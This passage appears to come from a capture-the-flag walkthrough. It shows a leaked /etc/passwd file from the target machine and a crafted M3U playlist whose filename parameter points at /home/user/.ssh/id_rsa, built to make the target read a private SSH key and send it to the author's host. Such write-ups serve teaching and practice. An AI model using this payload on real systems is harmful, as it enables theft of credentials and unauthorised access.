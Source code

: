 But now there’s a file that has `passwd` in it:

```

oxdf@hacky$ cat 2956d69c4ec060d6____etc_passwd 
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:103:106::/nonexistent:/usr/sbin/nologinsyslog:x:104:110::/home/syslog:/usr/sbin/nologin_apt:x:105:65534::/nonexistent:/usr/sbin/nologintss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/falseuuidd:x:107:112::/run/uuidd:/usr/sbin/nologintcpdump:x:108:113::/nonexistent:/usr/sbin/nologinlandscape:x:109:115::/var/lib/landscape:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falseusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinsshd:x:112:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinuser:x:1000:1000:user:/home/user:/bin/bashlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/falsemongodb:x:113:118::/var/lib/mongodb:/usr/sbin/nologin

```

The newlines are replaced with nulls, which is annoying, but easily fixed:

```

oxdf@hacky$ cat 2956d69c4ec060d6____etc_passwd | tr '\000' '\n'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...[snip]...

```

### SSH

#### Read Key

I managed to leak the username in error messages earlier, and now from the `passwd` file. I’ll try to grab `id_rsa` from `/home/user/.ssh`:

```

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://10.10.14.6/initial.m3u?filename=/home/user/.ssh/id_rsa
#EXT-X-ENDLIST

```
